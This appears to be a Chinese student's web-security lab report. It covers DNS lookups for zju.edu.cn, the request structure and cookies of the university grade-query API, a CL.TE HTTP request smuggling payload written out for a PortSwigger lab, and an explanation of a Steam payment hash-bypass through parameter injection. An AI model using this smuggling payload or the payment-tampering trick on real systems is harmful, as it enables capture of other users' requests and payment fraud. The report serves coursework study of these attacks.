

# Web Lab1：计算机网络基础

# Task1 网络基础

- 使用 `nslookup`​ 命令，用校内 DNS 服务器查询`www.zju.edu.cn`​的 IP 地址。给出完整的命令和查询结果。

  查询命令：

  ```bash
  nslookup
  > www.zju.edu.cn
  ```

  查询结果

  ```bash
  服务器:  dns1.zju.edu.cn
  Address:  10.10.0.21

  名称:    www.zju.edu.cn
  Address:  10.203.4.70
  ```
- 使用 `nslookup`​ 命令，用公网 DNS 服务器查询`www.zju.edu.cn`​的 IP 地址。给出完整的命令和查询结果。

  查询命令：

  ```bash
  nslookup www.zju.edu.cn 8.8.8.8
  ```

  查询结果：

  ```bash
  服务器:  dns.google
  Address:  8.8.8.8

  非权威应答:
  名称:    www.zju.edu.cn.queniusa.com
  Addresses:  2001:da8:20d:40d3:3::3f8
            2001:da8:20d:40d3:3::3f7
            222.192.187.248
            222.192.187.240
            222.192.187.245
            222.192.187.246
            222.192.187.242
            222.192.187.243
            222.192.187.244
            222.192.187.241
  Aliases:  www.zju.edu.cn
            www.zju.edu.cn.w.cdngslb.com
  ```
- 分别直接访问用校内 DNS 和校外 DNS 查询到的 IP 地址，能否访问成功？访问结果有何区别？这些地址是服务器的真实地址吗？试分析造成这种现象的原因。

  都不能访问成功（403 Forbidden报错），区别是用校外DNS访问响应来自nginx，而用校内DNS访问相应来自Tengine，因为服务器依靠域名来识别该显示哪个网站。当通过用IP地址访问时，服务器不认识这个IP域名，出于安全考虑，便统一拒绝相应来源的不同是因为网站采用了前后端分离的分层架构，两者分别为公网入口和内网的核心服务器。

# Task2 HTTP原理应用

- 使用BurpSuite和浏览器的开发者工具分析[zdbk.zju.edu.cn](https://zdbk.zju.edu.cn/)的成绩查询界面

  - 大致指出页面加载的流程

    访问成绩查询页面的大致流程如下：

    1. 加载页面框架

        用户在浏览器中点击“成绩查询”菜单，浏览器发起第一个`GET`​请求，向服务器请求`xscjcx_cxXscjIndex.html`​这个页面。服务器返回一个“空”的HTML页面框架，包含了页面的基本布局、标题、空的表格以及用于后续操作的JavaScript脚本。此时用户看到的是一个正在加载的、没有数据的界面。
    2. 执行辅助操作 

        页面框架加载后，内嵌的JavaScript脚本开始执行，发起一些辅助性的`POST`​请求。
    3. 异步请求成绩数据

        在所有准备工作完成后，页面中的JavaScript会发起一个最关键 AJAX请求来获取成绩数据，它向与主页面相同的URL 发起请求，但附加了一个关键的URL参数 `doType=query`​。服务器根据这个参数，知道这次不是要返回HTML页面，而是要执行“查询”操作并返回JSON格式的数据。
    4. 渲染数据到页面

        浏览器收到服务器返回的JSON数据包（其中包含了所有课程的成绩信息）。JavaScript获取这些数据，并动态地将它们填充到第1步加载的空表格中。
  - 找到返回关键信息的接口和参数

    1. 接口URL  
        https://zdbk.zju.edu.cn/jwglxt/cxdy/xscjcx\_cxXscjIndex.html

    2. 请求方法POST

    3. 关键URL参数

        - ​`doType=query`​: 核心参数，告诉服务器执行查询操作。
        - ​`gnmkdm=N5083`​: 功能模块代码，指定了当前操作是“学生成绩查询”。
        - ​`su=[你的学号]`​: 指定查询的学生ID。

    4. POST请求体中的关键参数

        - ​`xn`​: 学年 (Academic Year)。
        - ​`xq`​: 学期 (Semester)。
        - ​`queryModel.showCount`​: 每页显示多少条数据。
        - ​`queryModel.currentPage`​: 请求的页码。
        - ​`queryModel.sortName`​: 按哪个字段排序。
        - ​`queryModel.sortOrder`​: 排序方式 (`asc`​为升序, `desc`​为降序)。

    5. 必要的请求头/Cookie

        - ​`Cookie`​: 包含了 `JSESSIONID`​（会话ID）、`iPlanetDirectoryPro`​（单点登录凭证）等信息，用于用户身份认证。没有正确的Cookie，请求会被拒绝。
        - ​`_csrf`​: 日志中可见一个`_csrf`​的Cookie，这通常意味着请求体或URL中也需要附带对应的CSRF令牌，以防止跨站请求伪造攻击。

- 学会使用 Python 中的 requests 等库发送请求，通过自定义 Cookie 等方式尝试从学校网站抓取自己的本学期成绩。

  抓取成功截图，附件包含`crack.py`​

  

# Task3 HTTP请求走私实战

- 简述 HTTP 请求走私漏洞的原理。

  其核心原理在于利用前端代理服务器与后端服务器对 HTTP 请求解析的差异，根据 RFC 规范，当 `Content-Length`​ 和 `Transfer-Encoding`​ 同时存在时，`Transfer-Encoding`​ 的优先级更高。然而，并非所有的服务器都严格遵守此规范。当链条上的前端和后端服务器在处理这两个请求头时采取了不同的优先策略，就可以走私恶意请求，绕过安全控制。
- Lab 内是一个 BLOG，每个 post 下都有评论区。请你利用 HTTP 请求走私构造一个恶意数据包，发送给服务器之后，接下来的任意一个请求 ( 可能来自受害者 ) 的内容 ( 部分即可 ) 会被原封不动地发送到某个 post 下的评论区。这样，攻击者就可以通过看评论区的内容获取受害者的 HTTP 请求内容了。**给出你构造的数据包和成功后的截图**。

  构造的新的数据包

  ```js
  POST / HTTP/1.1
  Host: YOUR-LAB-ID.web-security-academy.net
  Connection: keep-alive
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 134
  Transfer-Encoding: chunked

  0

  POST /post/comment HTTP/1.1
  Host: YOUR-LAB-ID.web-security-academy.net
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 400

  postId=3&comment=
  ```

成功截图



# Bonus 漏洞报告阅读

- 用自己的语言简述漏洞的成因

  这里的漏洞成因是，服务器用于拼接字符串以生成哈希的逻辑，与其后解析具体参数（如金额）的逻辑不一致。具体来说，拼接字符串的逻辑可能直接将参数名和参数值连接起来，忽略了参数之间的分隔符（&）和赋值符（\=）。而解析参数的逻辑则严格按照标准，使用&和\=来识别不同的字段。攻击者正是利用了这个理解偏来发起攻击。
- 简述绕过服务器校验的原理

  攻击者首先将自己的Steam邮箱设置成一个包含攻击载荷的特殊字符串，例如 `myname_amount100_suffix@domain.com`​。这个邮箱地址本身是合法的，但其中包含了未来要注入的参数名`amount`​和值`100`​。

  在支付时，攻击者拦截发往支付网关的请求，并进行两处修改：

  - 注入新金额：修改`CustomerEmail`​字段。通过巧妙地插入`&`​符号，将原本的邮箱值 `myname_amount100_suffix@...`​ 变为 `myname_&amount=100&suffix=@...`​。对于严格的参数解析器来说，它现在会读到三个独立的参数：`CustomerEmail=myname_`​，一个被成功注入的`amount=100`​，以及一个无用的`suffix=@...`​。
  - 隐藏原金额：同时，攻击者将原始的金额参数名`Amount`​稍微改动一下，比如改成`Amount2`​。这样，当服务器解析参数时，它就找不到名为`Amount`​的字段，从而忽略了原始的、较大的支付金额。

  当服务器用存在漏洞的逻辑来重新拼接字符串以验证哈希时，它会忽略掉攻击者插入的`&`​和`=`​。在它看来，被篡改后的字符串`...Amount2...000...CustomerEmail...myname_&amount=100&suffix=@...`​在去除分隔符后，与原始的`...Amount=2000...CustomerEmail...myname_amount100_suffix@...`​内容完全一致。因此，哈希校验顺利通过。

‍
